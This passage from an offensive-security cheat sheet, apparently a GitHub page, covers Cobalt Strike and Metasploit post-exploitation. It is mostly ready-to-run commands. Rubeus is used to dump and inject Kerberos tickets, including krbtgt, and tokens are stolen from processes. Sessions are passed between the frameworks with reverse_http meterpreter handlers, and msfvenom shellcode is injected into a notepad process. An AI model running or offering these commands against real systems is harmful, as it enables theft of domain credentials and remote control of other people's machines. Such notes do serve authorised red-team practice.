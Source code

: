 #### Extract tickets
- Extract tickets of a user, create new process, inject ticket into process, steal token from the process
```
execute-assembly Rubeus.exe triage
execute-assembly Rubeus.exe dump /service:krbtgt /luid:<LUID> /nowrap
execute-assembly Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe
execute-assembly Rubeus.exe ptt /luid:<LUID> /ticket:[...base64-ticket...]
steal_token <PID>
```

#### Load ticket
```
kerberos_ticket_use <FILE TO TICKET>
```

#### Use ccache file
```
kerberos_ccache_use
```

## Session passing
### Cobalt strike --> Metasploit
```
use exploit/multi/handler
set payload windows/meterpreter/reverse_http
set LHOST eth0
set LPORT 8080
exploit -j
```
- Go to Listeners --> Add and set the Payload to Foreign HTTP. Set the Host, the Port to 8080, Set the name to Metasploit and click Save.
```
spawn metasploit
```

### Cobalt strike --> Metasploit shellcode inside process
```
msfvenom -p windows/x64/meterpreter_reverse_http LHOST=<IP> LPORT=8080 -f raw -o /tmp/msf.bin
execute C:\Windows\System32\notepad.exe
ps
shinject <PID> x64 msf.bin
```

### Metasploit --> Cobalt strike
- Go to Attacks --> Packages --> Windows Executable (S), select the desired listener, select Raw as the Output type and select Use x64 payload.
```
use post/windows/manage/shellcode_inject
set SESSION 1
set SHELLCODE /tmp/beacon.bin
run
```
